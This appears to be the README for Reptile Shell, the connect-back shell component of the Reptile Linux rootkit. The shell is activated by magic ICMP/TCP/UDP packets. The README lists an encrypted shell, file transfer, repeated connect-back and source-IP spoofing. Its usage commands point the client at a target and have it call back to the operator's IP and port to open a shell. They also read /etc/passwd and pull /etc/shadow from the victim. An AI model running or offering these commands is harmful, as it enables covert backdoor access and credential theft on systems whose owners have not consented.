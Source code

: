 # Reptile Shell

This shell is a user-mode-helper called by Reptile Kernel Module when is triggered with a magic ICMP/TCP/UDP packet. Based on Tiny SHell by Christophe Devine. Thanks Christophe! ;)

## Features

- Full TTY/PTY encrypted shell
- Download/Upload files
- Run standalone commands
- Loop to connect back each X times (not default)

## Usage

- To send magic packets and get a shell:
```
./reptile_client -t <target IP> -x <magic packet protocol> -l <your IP> -p <your port>
```
- To run standalone command (pay attention on quotes):
```
./reptile_client -t <target IP> -x <magic packet protocol> -l <your IP> -p <your port> -a "cat /etc/passwd" 
```
- To download/upload a file (pay attention on quotes):
```
./reptile_client -t <target IP> -x <magic packet protocol> -l <your IP> -p <your port> -a "get /etc/shadow /tmp"
./reptile_client -t <target IP> -x <magic packet protocol> -l <your IP> -p <your port> -a "put file.txt /root"
```
- To just stay listening connections:
```
./reptile_client -t <target IP> -x listen -l <your IP> -p <your port>
```
- If you wanna spoof the source IP address of magic packets, use: `-s <spoof IP>`
